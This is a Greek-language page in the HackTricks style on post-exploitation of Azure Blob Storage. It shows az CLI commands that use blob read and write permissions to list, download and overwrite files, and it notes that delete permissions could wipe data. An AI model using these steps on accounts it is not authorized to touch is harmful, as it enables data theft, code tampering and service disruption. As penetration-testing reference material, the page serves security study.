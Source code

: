 # Az - Blob Storage Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Storage Privesc

Για περισσότερες πληροφορίες σχετικά με την αποθήκευση, ελέγξτε:

{{#ref}}
../az-services/az-storage.md
{{#endref}}

### Microsoft.Storage/storageAccounts/blobServices/containers/blobs/read

Ένας κύριος με αυτή την άδεια θα μπορεί να **καταγράψει** τα blobs (αρχεία) μέσα σε ένα κοντέινερ και να **κατεβάσει** τα αρχεία που μπορεί να περιέχουν **ευαίσθητες πληροφορίες**.
```bash
# e.g. Microsoft.Storage/storageAccounts/blobServices/containers/blobs/read
az storage blob list \
--account-name <acc-name> \
--container-name <container-name> --auth-mode login

az storage blob download \
--account-name <acc-name> \
--container-name <container-name> \
-n file.txt --auth-mode login
```
### Microsoft.Storage/storageAccounts/blobServices/containers/blobs/write

Ένας κύριος με αυτή την άδεια θα είναι σε θέση να **γράψει και να αντικαταστήσει αρχεία σε κοντέινερ** που μπορεί να του επιτρέψει να προκαλέσει κάποια ζημιά ή ακόμη και να κλιμακώσει προνόμια (π.χ. να αντικαταστήσει κάποιον κώδικα που είναι αποθηκευμένος σε ένα blob):
```bash
# e.g. Microsoft.Storage/storageAccounts/blobServices/containers/blobs/write
az storage blob upload \
--account-name <acc-name> \
--container-name <container-name> \
--file /tmp/up.txt --auth-mode login --overwrite
```
### \*/delete

Αυτό θα επέτρεπε τη διαγραφή αντικειμένων μέσα στον λογαριασμό αποθήκευσης, κάτι που θα μπορούσε να **διακόψει ορισμένες υπηρεσίες** ή να κάνει τον πελάτη να **χάσει πολύτιμες πληροφορίες**.

{{#include ../../../banners/hacktricks-training.md}}
